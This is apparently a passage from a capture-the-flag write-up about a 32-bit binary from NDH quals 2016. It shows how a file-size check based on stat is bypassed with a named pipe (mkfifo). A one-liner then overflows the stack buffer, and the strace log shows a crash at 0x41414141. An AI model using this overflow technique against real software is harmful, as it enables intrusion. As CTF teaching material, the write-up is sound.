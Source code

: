 The binary isn't big (ignoring the statically linked libc). It reads a file and
stores it in a buffer on the stack and exits Unfortunately it calls the
function `sym.check_size` first, which calls `stat` and checks if the filesize
is smaller than `0xfff`. Let's see if we can trick this function. My first
guess was to use `mkfifo`. Getting the size of pipes doesn't make sense so it
will probably be 0.

```
$ mkfifo fifo; strace ./pwn ./fifo & python -c 'print("A"*0x1200)' > ./fifo; rm ./fifo
[1] 5437
execve("./pwn", ["./pwn", "./fifo"], [/* 35 vars */]) = 0
strace: [ Process PID=5440 runs in 32 bit mode. ]
uname({sysname="Linux", nodename="pwn", ...}) = 0
brk(NULL)                               = 0x9f14000
brk(0x9f14d40)                          = 0x9f14d40
set_thread_area({entry_number:-1, base_addr:0x9f14840, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
readlink("/proc/self/exe", "/ctf/ndhquals2016/secure_file_re"..., 4096) = 44
brk(0x9f35d40)                          = 0x9f35d40
brk(0x9f36000)                          = 0x9f36000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
stat64("./fifo", {st_mode=S_IFIFO|0644, st_size=0, ...}) = 0
open("./fifo", O_RDONLY)                = 3
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "\n", 256)                      = 1
read(3, "", 256)                        = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7758000
write(1, "The file has been saved successf"..., 37%                                                                                                                           The file has been saved successfully
) = 37
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV (core dumped) +++
[1]  + 5437 segmentation fault (core dumped)  strace ./pwn ./fifo
```
